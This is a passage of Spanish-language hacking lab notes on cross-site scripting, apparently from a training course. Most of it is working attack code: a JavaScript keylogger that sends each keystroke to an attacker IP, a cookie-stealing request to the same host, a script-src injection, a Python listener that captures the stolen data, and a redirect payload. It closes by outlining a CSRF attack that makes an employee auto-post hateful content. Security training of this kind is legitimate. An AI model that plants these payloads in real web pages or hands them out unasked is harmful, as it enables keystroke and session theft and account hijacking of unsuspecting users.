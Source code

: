 ```
    }
</script>
```

- Nos creamos el nuevo archivo en el localhost con el script en el comentario y luego visualizamos los datos ingresados por el puerto 80
```
python3 -m http.server 80
```

- Tambien lo podemos hacer con varias opciones como, solicitar usuario y contraseña con html o crear un **Keylogger** como el siguiente ejemplo
```
nvim keylogger.js
```

```
<script>
        var k = "";
        document.onkeypress = function(e){
                e = e || window.event;
                k += e.key;
                var i = new Image();
                i.src = "http://192.168.72.130/" + k;
        };      
</script>
```
- Si nos ponemos a la escucha con python con el siguiente comando podríamos observar de mejor manera el Keylogger
```
python3 -m http.server 80 2>&1 | grep -oP 'GET /\k[^,*\s]+'
```

- Ahora podemos crear una pagina que direccione a otra pagina
```
<script>
window.location.href = "https://hack4u.io";
</script>
```

- También podemos hacer que cuando se loguee, se este logueando en otra pagina
```
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.72.130/?cookie=' + document.cookie);
request.send();
```
- Hay que ingresar el script en la creación de pagina en el localhost **"<script src="http://192.168.111.45/test.js"></script>"**
- Nos ponemos en escucha con el python3 por el puerto 80 eh ingresamos a la pagina creada con el script de arriba
- Una vez robada la cookie de sesión se podría realizar un **cookie hijacking**

# Ahora intentaremos hacer otro ejercicio de una manera mas peculiar
- Si quisiera que algún trabajador de la empresa publique de manera automática al ingresar a un post un post de odio o parecido
- Para eso lo primero que haríamos seria abrir nuestro burpsuite e ingresamos desde el localhost usando la herramienta foxyproxy
- Si queremos tramitar por POST tenemos que encontrar un CSRF token valido para incorporarlo 
